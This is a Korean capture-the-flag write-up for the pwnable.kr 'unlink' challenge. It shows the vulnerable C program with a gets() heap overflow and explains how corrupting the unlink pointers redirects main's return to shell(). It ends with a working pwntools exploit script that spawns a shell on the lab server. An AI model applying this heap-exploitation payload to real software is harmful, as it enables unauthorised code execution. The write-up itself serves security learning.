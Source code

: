 # [pwnable.kr] unlink

> Daddy! how can I exploit unlink corruption?
>
> ssh unlink@pwnable.kr -p2222 (pw: guest)
>
> [Attachment](./attachment)

## Bug

```c
/* unlink.c */

int main(int argc, char* argv[]){
    malloc(1024);
    OBJ* A = (OBJ*)malloc(sizeof(OBJ));
    OBJ* B = (OBJ*)malloc(sizeof(OBJ));
    OBJ* C = (OBJ*)malloc(sizeof(OBJ));

    // double linked list: A <-> B <-> C
    A->fd = B;
    B->bk = A;
    B->fd = C;
    C->bk = B;

    printf("here is stack address leak: %p\n", &A);
    printf("here is heap address leak: %p\n", A);
    printf("now that you have leaks, get shell!\n");
    // heap overflow!
    gets(A->buf);

    // exploit this unlink!
    unlink(B);
    return 0;
}
```

`gets(A->buf)`에서 heap overflow가 발생하여 `A->buf`부터 `B`와 `C`의 구조 전체를 원하는 값으로 덮어쓸 수 있다.

## Exploit

Stack과 heap의 주소를 leak해 주는 것을 이용하여 `main()`의 return address를 `shell()`의 주소로 덮어쓰면 shell을 획득할 수 있다.

```c
/* unlink.c */

void unlink(OBJ* P){
    OBJ* BK;
    OBJ* FD;
    BK=P->bk;
    FD=P->fd;
    FD->bk=BK;
    BK->fd=FD;
}
```

`unlink()`의 인자로는 `B`가 전달된다. 따라서 이 코드에서 `BK`와 `FD`에 임의의 값을 넣을 수 있다.

![image](https://github.com/user-attachments/assets/eab5d982-9a76-4c0d-9e16-46bce3e8bacb)

![image](https://github.com/user-attachments/assets/fe23d5cb-3767-44fe-ad06-4a80dc673ca9)

`FD->bk=BK;`와 `BK->fd=FD;`를 각각 실행하기 때문에 `FD`와 `BK`는 모두 쓰기 가능한 주소여야 한다. 그래서 `shell()`의 주소를 바로 넣을 수는 없고, heap에 `shell()`의 주소를 넣어 두고 `main()`의 `ebp`를 heap 주소로 덮어서 `shell()`로 return하도록 만들어야 한다.

![image](https://github.com/user-attachments/assets/44e8612d-64e5-49a7-a140-4bb3298f821c)

`main()`의 epilogue를 보면 `ebp-0x4` 위치에 저장된 값에서 4를 빼서 `esp`에 넣는다. 이 `esp`가 가리키는 주소에 `shell()`의 주소가 있으면 `main()`이 `shell()`로 return하게 된다.

```python
# ex.py

from pwn import *

p = ssh("unlink", "pwnable.kr", 2222, "guest").process("/home/unlink/unlink")

shell = 0x80484EB  # shell()

# leak stack and heap
p.recvuntil(b"here is stack address leak: 0x")
esp = int(p.recvline()[:-1], 16) - 0x14  # esp of main()
p.recvuntil(b"here is heap address leak: 0x")
heapbase = int(p.recvline()[:-1], 16) - 0x410  # heapbase
log.info("esp of main(): " + hex(esp))
log.info("heapbase: " + hex(heapbase))

# call shell()
payload = b"A" * 0x10  # dummy
payload += p32(heapbase + 0x430 + 4)  # FD
payload += p32(esp + 0x28 - 4)  # BK
payload += p32(shell)  # heapbase + 0x430

p.sendlineafter(b"now that you have leaks, get shell!\n", payload)

p.interactive()
```

![image](https://github.com/user-attachments/assets/11a10080-21e7-4fa0-bc1b-1914cbf0507e)
